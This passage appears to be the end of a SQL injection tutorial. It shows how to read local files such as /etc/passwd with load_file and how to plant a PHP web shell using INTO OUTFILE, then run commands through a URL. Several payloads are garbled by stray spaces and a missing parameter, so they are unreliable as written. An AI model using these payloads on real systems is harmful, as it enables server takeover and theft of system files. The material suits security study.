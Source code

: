 ### From Sqli to LFR

Sql also has a function that allows us to load local files and with that we can read files that we should not normally have access to.

Example: `union all select load_file ('/ etc / passwd')`

### From Sqli to RCE

Using the same method with which we did a persistent xss we are going to do the following:

We are going to inject php code with which we are going to generate a shell with which we are going to be able to execute commands within the vulnerable server

Code: `'<? Php system ($ _ GET [" cmd "]); ?> '' '

We are going to inject it using a:

INTO + OUTFILE + 'path / name.php'

Example:

`union + select + 1, 'load_file (' / etc / passwd ')', 3 + INTO + OUTFILE + 'path / name.php' + - +`

Finally, to use it we go to the following route:

`http: //vulnerable.com/name.php? = ls`

As you can see, we are using the shell that we inject to execute the commands.

To see it a little more graphic, you can see it from here: https://twitter.com/_Y000_/status/1249877772979384320

-------------------------------------------


Thank you very much for taking the time! If you have any suggestions, you can gladly tell me!
